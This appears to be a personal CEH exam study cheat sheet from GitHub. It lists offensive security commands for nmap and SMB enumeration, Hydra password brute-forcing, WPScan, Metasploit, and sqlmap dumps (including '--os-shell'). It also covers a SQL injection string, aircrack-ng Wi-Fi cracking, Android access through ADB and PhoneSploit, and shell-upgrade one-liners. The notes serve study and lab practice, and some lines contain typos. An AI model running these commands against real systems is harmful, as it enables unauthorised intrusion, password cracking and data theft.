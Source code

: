 # CEH_notes
My notes
### Host Discovery ###
nmap -sn <IP Block>
netdiscovery -r <IP Block>

########################################################## NMAP scans #####################################################################
Nmap options 
optional
-p : ports //-p- all ports(1-65535) | -p80,445 only 80 and 445 ports 
-Pn : Don't send icmp packet before scanning
-A : -sV -O traceroute ...
-sV : Version scan
-sC : Default script scan
-v: verbose
-O : OS Detection

nmap -sn 10.10.10.10/24 -oN nmap.txt
nmap -sC -sV -sS -O 10.10.10.11 -oN nmap.txt
nmap -A 10.10.10.10/24 -oN nmap.txt

nmap -sn -O 172.16.43.1/24 
nmap -sS -sC -sV -O 172.16.43.3 -oN nmap.txt
nmap 172.16.43.1/24

nmap -sV -sC -pA nmap 10.10.10.x
nmap -sC -sV -v -oN nmap.txt 10.10.10.10
nmap -sU -sV -A t4 -v -oN udp.txt 10.10.10.1

nmap -f IP
nmap -sn -PR IP
nmap -sn -PE ip-range
nmap -sn 10.10.10.10/24
nmap -sC -sS -sV -O IP
nmap -A IP

-sn disable port scan
-PR ARP ping scan
-PU UDP ping scan
-PE ICMP ECHO ping scan
-f  Splits IP into fragment packets

##### Nmap with script scan #####

###### mail scan 
nmap -sV -T4 --script smtp-enum-users -p 25,465,587
nmap -p 25,110,143,465,587,993,995 <server_IP>
nmap -sV -p 25,110,143,465,587,993,995 <server_IP>
nmap --script ssl-enum-ciphers -p 465,993,995 <server_IP>
nmap --script smtp-commands -p 25,587 <server_IP>

nmap --script smb-os-discovery.nse IP 
Displays OS, Computer-Name, Domain, WorkGroup and Ports.
nmap --script nbstat.nse ip 
##### we can see that we have the shares listed although the Access is Denied the existence of the
nmap --script smb-enum-shares -p139,445 ip 
###find version of the OS and AD #### you must enable rdp after thet you can get OS VERSION 
sudo nmap -p 3389 --script rdp-ntlm-info | grep Pro target_ip ###### useful for ad Os version 
#####Enumeration
nmap — script smb-os-discovery.nse -p445 <ip> (enumerate os, domain name,etc)
nmap — script smb-enum-users.nse -p445 <ip> (used to enumerate all users on remote Windows system using SAMR enumeration and LSA bruteforcing)
nmap -p 445 — script=smb-enum-shares.nse, smb-enum-users.nse ip (smb users and shares)

nmap -p445 --script smb-protocols 10.0.17.200


ldapsearch -x -h <IP> -b “DC=CEH,DC=com” and press enter 
ldapsearch -h [Target IP Address] -x -s base
nmap -p 389 -sV -iL <Target File> OR nmap -p 389 -sV <IP> {FQDN = Host + Domain}
nmap -A -p- 192.168.0.105 --script smb-os-discovery


nmap -A -T4 -v -p- -oN scan_results.txt 192.168.1.1 ### find all and generate report 

nmap -sV -sC -vv -oN 1000Port.txt <IP>
nmap -A -vv <IP> //aggresive scan 
sudo nmap -p- -A | servicename 
nmap -sn 170.16.0.1/24 -oN nmap.txt
nmap -O 170.16.0.1/24 -oN namp-OS.txt
namp -sC -sV -sS 170.16.0.20 -oN namp-all.txt
nmap -p 3389 <IP/24> # RDP hosts scan
nmap -p 139,445 --open -sV 10.10.55.0/24 | searching smb


### Finding Domain Controller and FQDN ####
nmap -p389,636,3268,3269 --script ldap-rootdse <IP> // LDAP Service enumaration
FQDN = Hostname+Domain // hostname.domain

##### all port scan RAT #####
Port-Specific Scan 
nmap -p 5110,6703,2968,9871,5552,1177 ip/24
nmap -sV -p 5110,6703,2968,9871,5552,1177 ip/24
Aggressive Scan
nmap -A -p 5110,6703,2968,9871,5552,1177 ip/24


—------------------------
Nmap -Pn -p 21 target > ftp
grep -B 5 open ftp

—--------------------------
Nmap -Pn -p 3389 target > rdp
grep -B 5 open rdp
—-------------------------
Nmap -Pn -p 3306 target > mysql
grep -B 5 open mysql

optional
-p : ports //-p- all ports(1-65535) | -p80,445 only 80 and 445 ports 
-Pn : Don't send icmp packet before scanning
-A : -sV -O traceroute ...
-sV : Version scan
-sC : Default script scan
-v: verbose
-O : OS Detection

### Default Ports ###
Common Services
FTP:21    SSH:22    Telnet:23    SMTP:25    HTTP:80    HTTPS:443    SMB:139/445        
RDP:3389    MYSQL:3306    MSSQL:1433    LDAP:389/636/3268/3269    NFS:2049

############################################################ RAT #####################################################################
RAT's Default Ports
ProRAT:5110    Theef:6703/2968/9871    NjRAT:5552/1177
#################################################### SMB USER GET #####################################################################
SMB command on Linux cmd 
-L: List available shares.
-U: Specify username.
-W: Set domain or workgroup.
-c: Run a command (e.g., ls).
####List shares
smbclient -L 192.168.1.100 -U user
Connect to a share
smbclient //192.168.1.100/shared -U user
####Download a file
smbclient //192.168.1.100/shared -U user -c "get file.txt"
###Upload a file
smbclient //192.168.1.100/shared -U user -c "put local_file.txt"

#Here we see that the target machine has some shares.
smbmap -H ip
#Let’s enumerate a user-specific share using the credentials for that user. 
smbmap -H 192.168.1.17 -u raj -p 123
smbclient //ip/guest
smbclient -L ip -U raj%123
smbclient //ip/share -U raj%123
smbclient -L \\ip
smbclient \\\\ip\\share_name -U user%password
################################################# Brute Forcing   ##################################################################
Hydra Options 

optional
-l : specific username (John,root,guest)
-L : username wordlist (/usr/share/wordlists/users.txt)
-p : spesific password (qwerty,password1)
-P : password wordlist (/usr/share/wordlists/rockyou.txt)
https://walk-throughs.medium.com/exploiting-drupal-via-metasploit-ctf-walkthrough-fcd5f5fa2fa

usage : hydra -l <username> -P <Wordlist Path> <Protocol>://<IP>
example : hydra -l root -P /usr/share/wordlists/rockyou.txt ssh://10.0.0.12
hydra -t 4 -V -l user -P /path/to/password-list.txt rdp://<target_ip>
hydra -L user_list.txt -P password_list.txt ip smb
hydra -t 1 -V -f -l Jones -P /home/passlist.txt rdp://ip
Hydra -l anar -P given_wordlist ftp://target
hydra -L /root/Desktop/Wordlists/Usernames.txt -P /root/Desktop/Wordlists/Passwords.txt ftp://[IP]`
hydra -l root -P passwords.txt [-t 32] <IP> ftp
hydra -L usernames.txt -P pass.txt <IP> mysql
hydra -l USERNAME -P /path/to/passwords.txt -f <IP> pop3 -V`
hydra -V -f -L <userslist> -P <passwlist> ***rdp***://<IP>`
hydra -P common-snmp-community-strings.txt target.com snmp
hydra -l Administrator -P words.txt 192.168.1.12 smb t 1
hydra -l root -P passwords.txt <IP> ssh


################################################# WpScan ###################################################################################

WpScan Key Options:
--url: Target URL (e.g., https://example.com).
--enumerate: Enumerate details (e.g., u for users, p for plugins, vt for vulnerable themes).
--api-token: Use WPScan API for vulnerability data.
--passwords: Specify a password file for brute-forcing.
--usernames: Define usernames for login attempts.
--random-agent: Use a random user agent.
--output: Save scan results to a file.
--stealthy: Reduce request rate for stealthy scans.
####Basic scan
wpscan --url https://example.com
####Enumerate users and plugins
wpscan --url https://example.com --enumerate u,p
####Brute-force login
wpscan --url https://example.com --usernames admin --passwords passwords.txt
####Save output to a file
wpscan --url https://example.com --output results.txt

Wpscan
Wpscan –url http://ip/ --enumerate u
wpscan --url http://ip:port/uri -u root -P passwdfile.txt
wpscan -u james -P /password.txt — urlhttp://:8080/TEST

############################################################### Metasploit ##################################################################

Metasploit Basic Options:
-h: Show help.
-q: Quiet mode (minimal output).
-v: Enable verbose mode.
-L: List modules, payloads, exploits, or listeners.
-x <command>: Run commands directly upon startup.
Key Commands:
use <module>: Load a module (e.g., exploit).
set <option> <value>: Set module options (e.g., target IP).
show <type>: List available exploits, payloads, or options.
show exploits
show payloads
show options


msfconsole to open metasploit. Type -  use auxilliary/scanner/http/wordpress_login_enum
show options
set PASS_FILE /home/anar/password.txt
set RHOSTS ip  (target ip)
set RPORT 8080          (target port)
set TARGETURI /uri
set USERNAME admin

msfconsole
search name
use exploit/unix/webapp/
set RHOSTS ip
set RPORT port
run

https://walk-throughs.medium.com/exploiting-drupal-via-metasploit-ctf-walkthrough-fcd5f5fa2fa

################################################################## Sql injection ##################################################################

### Tek sql
sqlmap -u "http://ip" --crawl=3 --level=5 --risk=3 --dbs
sqlmap -u "http://ip" --crawl=3 --level=5 --risk=3 -D database_name --tables
sqlmap -u "http://ip" --crawl=3 --level=5 --risk=3 -D database_name -T table_name --columns
sqlmap -u "http://ip" --crawl=3 --level=5 --risk=3 -D database_name -T table_name -C Flag --dump
###



SQLMAP Key Options:

Target URL:
-u <URL> – Specify the target URL.
sqlmap -u "http://example.com/page?id=1"
Data Submission:
--data="<POST_DATA>" – Test POST data.
sqlmap -u "http://example.com/login" --data="username=admin&password=pass"
Database Enumeration:
--dbs – List databases.
--tables – List tables in a database (-D <database>).
--columns – List columns in a table (-D <database> -T <table>).
--dump – Dump data from a table (-D <database> -T <table>).
Authentication:
--cookie="<COOKIE>" – Use session cookies.
--auth-type=<type> – Specify authentication type (basic, digest).
Level & Risk:
--level=<1-5> – Test depth (default: 1).
--risk=<1-3> – Risk level for payloads (default: 1).
Detection Options:
--banner – Retrieve the DBMS banner.
--current-db – Get the current database.
--current-user – Find the current user.
Advanced Testing:
--time-sec=<seconds> – Adjust time-based payload delays.
--threads=<number> – Set the number of threads.
Bypass Filters:
--random-agent – Use random user-agent strings.
--tamper=<script> – Use tamper scripts.
######Dump data from a specific table:
sqlmap -u "http://example.com/page?id=1" -D test_db -T users --dump
######Use cookie for testing:
sqlmap -u "http://example.com/page?id=1" --cookie="session=abc123"


Sqlmap -r req.txt   --dbs
Sqlmap -r req.txt -D dvwa
Sqlmap -r req.txt -D dvwa --table
Sqlmap -r req.txt -D dvwa --tables –columns 
Sqlmap -r req.txt -D dvwa --dump

In alternative we can use SQLMap and the vulnerable url

Get all databases using sqlmap

sqlmap -u "http://example.com/" --crawl=3

sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=1 --dbs

Get tables from a selected database_name
sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=1 -D database_name --tables 

Get all columns from a selected table_name in the database_name
sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=1 -D database_name -T table_name --columns

Dump the data from the columns 
sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=1 -D database_name -T table_name -C column_name --dump

admin’ or 1=1 - -

`qlmap -u “[http://www.moviescope.com/viewprofile.aspx?id=1”](http://www.moviescope.com/viewprofile.aspx?id=1%E2%80%9D) --cookie="xookies xxx" --dbs`

 `sqlmap -u “[http://www.moviescope.com/viewprofile.aspx?id=1”](http://www.moviescope.com/viewprofile.aspx?id=1%E2%80%9D) --cookie="cookies xxx" -D moviescope --tables`

 `sqlmap -u “[http://www.moviescope.com/viewprofile.aspx?id=1”](http://www.moviescope.com/viewprofile.aspx?id=1%E2%80%9D) --cookie="cookies xxx" -D moviescope -T User_Login --columns`

`qlmap -u “[http://www.moviescope.com/viewprofile.aspx?id=1”](http://www.moviescope.com/viewprofile.aspx?id=1%E2%80%9D) --cookie="cookies xxx" -D moviescope -T User_Login --dump`

 `sqlmap -u “[http://www.moviescope.com/viewprofile.aspx?id=1”](http://www.moviescope.com/viewprofile.aspx?id=1%E2%80%9D) --cookie="cookies xxx" --os-shell`

############################################################## Wireshark Usefull Filters################################################################

Wireshark Capture Options:
-i <interface>: Specify the network interface to capture traffic.
-k: Start capturing immediately.
-w <file>: Write capture data to a file.
-f <filter>: Apply a capture filter (e.g., tcp port 80).
Display Options:
-r <file>: Read a capture file.
-Y <filter>: Apply a display filter (e.g., http).
-T <format>: Set output format (e.g., fields, json).



ip.addr == 192.168.1.1: Show packets to or from the specified IP address.
ip.src == 192.168.1.1: Show packets from the specified source IP address.
ip.dst == 192.168.1.1: Show packets to the specified destination IP address.
http.request.method==POST
To find DOS (SYN and ACK) :
open file with wireshark
statistic -> IPv4 statistics -> source and destination address
filter using: `tcp.flags.syn == 1` 
or 
`tcp.flags.syn == 1 and tcp.flags.ack == 0` 
or 
filter to highest number of request
find IoT 
in search write mqtt
mqtt.msgtype == 3
mqtt
in MQ Telemetry Transport Protocol , Publish Message
find
Message: ddfgdfgdsfg;ldsf;lgk
http.response.code == 404: Show HTTP packets with a 404 status code (Not Found).
http.response.code >= 400: Show HTTP error responses (client and server errors).
tcp.stream eq 1: Show packets for a specific TCP stream (replace "1" with the appropriate stream index).
tcp.flags.syn == 1 and tcp.flags.ack == 0: Show SYN packets (indicating new TCP connections).
############################################################################################################################################ 

################################################################ Cryptografy ###############################################################
xxd command check if there is anything inside the file or not 
snow -C -p "password" <target_file>
openstego
snow.exe -C -p "test" confidential.txt
-C  compressing / uncompressing
-p  password
Open Stego 
GUI tool

stegsnow -p 12345 -C 1.txt 2.txt
steghide extract -sf file.doc
Hashcalc — Md5 calculator
Cryptool — decode .hex file
Bctextencoder — decrypt text using secret key
Veracrypt — anything related to volume
CryptoForge Decrypter

Veracrypt 
Cryptool
Snow
Bctextencoder
Md5 & sha1 checksum utility
Wpscan
Nmap
Metasploit
Hydra
Wireshark
Winscp
OWASP ZAP
RDP
############################################## Mobile Hacking ---- android-using-phonesploit ########################################################################################################################## 
adb connect <IP>:<PORT>(default port 5555)
adb shell
pwd, ls ... basic linux commands
exit
adb pull <target_file> .
#
cd PhoneSploit
python3 -m pip install colorama
python3 phonesploit.py
Type 3 and press Enter to select [3] Connect a new phone option.

When prompted to Enter a phones ip address, type the target Android device’s IP address (in this case, 10.10.10.14) and press Enter.

If you are getting Connection timed out error, then type 3 again and press Enter. If you do not get any option, then type 3 and press Enter again, until you get Enter a phones ip address option.
You will see that the target Android device (in this case, 10.10.10.14) is connected through port number 5555.

If you are unable to establish a connection with the target device, then press Ctrl+C and re-perform steps#8–11.
Now, at the main_menu prompt, type 4 and press Enter to choose Access Shell on a phone.

When prompted to Enter a device name, type the target Android device’s IP address (in this case, 10.10.10.14) and press Enter.

#################################################################################################################################################################################

####################################################### WIFI Hacking ########################################################################################################

aircrack-ng Key Options:
-a: Force attack mode (1=WEP, 2=WPA).
-b: Target BSSID (AP MAC address).
-w: Specify wordlist for WPA/WPA2 cracking.
-e: Target ESSID (network name).
-l: Write the found key to a file.
-q: Quiet mode (less output).
-s: Display ASCII key for WEP.

Crack the wireless encryption and identify the Wi-Fi password
1st tentative:** `aircrack-ng pcapfile` (usually works only for WEP encryption)
2nd tentative**: `aircrack-ng -w passwordlist pcapfile`
3rd tentative**: adding BSSID (-b flag): `aircrack-ng -b BSSID -w passwordlist pcapfile` 
(To find BSSID: on Wireshark click on packet, search BSSID and copy value)

aircrack-ng '/data/1.cap bu komanda ile 20:E5:2A:E4:38:00  tapirsan
aircrack-ng -a2 -b SSID  -w /usr/share/wordlists/password.txt '/home/anar/data/anar/1.cap'
####
SMS hacking 
https://walk-throughs.medium.com/exploiting-drupal-via-metasploit-ctf-walkthrough-fcd5f5fa2fa
2

################################################################################################################################################################################
######
https://www.cvedetails.com/
https://crackstation.net/
https://hashes.com/en/decrypt/hash
https://hashes.com/en/tools/hash_identifier
https://www.tunnelsup.com/hash-analyzer/    ##### hash_identifier
https://emn178.github.io/online-tools/crc/


##############################This command creates an interactive shell using Python by leveraging the pty modul#####
script /dev/null -c bash
python -c ‘import pty; pty.spawn(“/bin/sh”)’
python -c ‘import pty;pty.spawn(“/bin/bash”)’
python3 -m http.server 8000
 
